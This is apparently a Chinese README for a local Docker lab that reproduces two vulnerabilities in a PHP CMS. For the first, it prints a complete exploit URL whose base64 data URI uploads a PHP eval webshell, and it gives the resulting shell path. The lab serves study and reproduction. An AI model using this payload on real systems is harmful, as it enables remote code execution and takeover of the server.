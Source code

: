 ## 环境编译
```
docker-compose build
docker-compose up -d
```
## 漏洞一
```
http://127.0.0.1:8001/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbInBhc3MiXSk7ID8+
```
![](luffy1.png)
木马地址
```
http://127.0.0.1:8001/uploadfile/member/0/0x0.php
```
![](luffy2.png)

## 漏洞二

先注册登录
![](luffy3.jpeg)

然后提交payload
![](luffy4.jpeg)



[漏洞介绍](http://4o4notfound.org/index.php/archives/40/)

